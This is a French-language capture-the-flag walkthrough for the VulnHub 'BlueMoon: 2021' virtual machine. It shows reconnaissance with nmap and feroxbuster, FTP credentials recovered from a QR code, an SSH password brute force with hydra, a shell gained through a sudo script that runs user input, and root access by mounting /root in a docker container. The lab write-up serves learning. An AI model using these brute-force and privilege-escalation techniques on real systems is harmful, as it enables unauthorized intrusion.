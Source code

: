 ```yaml
---
title: "Solution du CTF BlueMoon: 2021 de VulnHub"
date: 2022-11-04 13:33:00
tags: [CTF, VulnHub]
---
```


[BlueMoon: 2021](https://www.vulnhub.com/entry/bluemoon-2021,679/) est un CTF proposé sur VulnHub et créé par un certain *Kirthik*. La difficulté est notée comme facile sans plus de description. Il faut juste obtenir les droits root.

Un scan des ports de la VM (`sudo nmap -T5 -p- -sCV 192.168.56.40`) révèle trois services assez classiques. On note la présence d'un FTP qui ne semble pas ouvert aux connexions anonymes et effectivement un essai manuel retourne une erreur `530 Permission denied.`

Je suis donc passé à la phase d'énumération. Sur le site web on trouve une page de bienvenue avec deux images (une dans la page, l'autre est le favicon), rien de plus.

A l'aide de feroxbuster et des wordlists [raft](https://github.com/Averroes/raft/tree/master/data/wordlists) que j'utilise habituellement (efficaces et suffisemment courtes) j'ai tenté de trouver des fichiers et dossiers cachés en vain.

J'ai ensuite tenté de bruteforcer un éventuel compte FTP à l'aide d'hydra, toujours sans résultats.

J'ai analysé les images du site avec un éditeur hexadécimal à l'affut d'un quelconque indice.

Finalement j'ai refait une énumération web avec la wordlist plus grosse de [DirBuster](https://github.com/igorhvr/zaproxy/blob/master/src/dirbuster/directory-list-2.3-big.txt) et je suis tombé sur le fichier *hidden_text* contenant le message suivant :

> Maintanance!
> Sorry For Delay. We Will Recover Soon.
> 
> Thank You ...

La dernière ligne est un lien HTML pointant vers une image de QR code.

J'ai eu recours au site https://qrscanneronline.com/ qui a décodé l'image vers le script suivant:

```bash
#!/bin/bash

HOST=ip
USER=userftp
PASSWORD=ftpp@ssword

ftp -inv $HOST user $USER $PASSWORD
bye
EOF
```

Quand on se connecte au FTP on arrive immédiatement dans le dossier /home/userftp/files qui contient les fichiers suivants :

```
-rw-r--r--    1 0        0             147 Mar 08  2021 information.txt
-rw-r--r--    1 0        0             363 Mar 08  2021 p_lists.txt
```

Je remarque toutefois qu'il est possible de remonter l'arborescence pour aller jusqu'à la racine. A noter qu'il n'est pas possible de déposer une clé SSH dans le dossier de *userftp* ou de mettre un script php sous */var/www*.

On peut en revanche aller chercher le premier flag de l'utilisateur robin car le fichier est world readable mais on verra plus tard.

Le premier fichier contient le texte suivant :

> Hello robin ...!  
>       
>    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.

Le second est une liste de 32 mots de passe où des lettres ont été remplacées par des chiffres (aka leetspeak).

Une tentative de bruteforce sur le FTP échoue mais ça passe avec le SSH :

```bash
$ ./hydra -l robin -P /tmp/p_lists.txt ssh://192.168.56.40
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.56.40:22/
[22][ssh] host: 192.168.56.40   login: robin   password: k4rv3ndh4nh4ck3r
1 of 1 target successfully completed, 1 valid password found
```

On peut alors obtenir le flag `Fl4g{u5er1r34ch3d5ucc355fully}`

Premier réflexe une fois connecté, voir si l'utilisateur peut exécuter une commande via sudo :

```bash
robin@BlueMoon:~$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
```

Le script en question n'est pas modifiable :

```
-r-xr--r-x 1 robin robin 235 Mar  8  2021 /home/robin/project/feedback.sh
```

Toutefois vu qu'on est le propriétaire on doit pouvoir changer les permissions.

On aura cependant pas à modifier le fichier puisque le script prend un nom de commande en entrée puis l'exécute :

```bash
#!/bin/bash

clear
echo -e "Script For FeedBack\n"

read -p "Enter Your Name : " name
echo ""
read -p "Enter You FeedBack About This Target Machine : " feedback
echo ""
$feedback 2>/dev/null

echo -e "\nThanks For Your FeedBack...!\n"
```

Exemple à l'exécution :

```
Script For FeedBack

Enter Your Name : toto

Enter You FeedBack About This Target Machine : id

uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)

Thanks For Your FeedBack...!
```

On saisissant `bash` comme feedback on obtient un shell peu agréable car l'output est envoyé sur /dev/null mais c'est suffisant pour déposer notre clé SSH dans le *.ssh/authorized_keys* et obtenir ensuite un vrai shell.

On a alors accès au second flag : *Fl4g{Y0ur34ch3du53r25uc355ful1y}*

On ne peux pas utiliser sudo car on ne dispose pas du mot de passe de *jerry* mais je note que l'utilisateur fait partie du groupe docker et qu'une image est présente sur le système :

```bash
jerry@BlueMoon:~$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
jerry@BlueMoon:~$ docker images -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              28f6e2705743        20 months ago       5.61MB
```

Il suffit alors de lancer cette image en montant le répertoire de root à un emplacement spécifique dans le container. On aura alors accès à son contenu :

```bash
jerry@BlueMoon:~$ docker run -it -v /root:/real_root alpine
/ # cd real_root
/real_root # ls
root.txt
/real_root # cat root.txt

==> Congratulations <==

You Reached Root...!

Root-Flag 

     Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}

Created By 

        Kirthik - Karvendhan


instagram = ____kirthik____



!......Bye See You Again......!
```
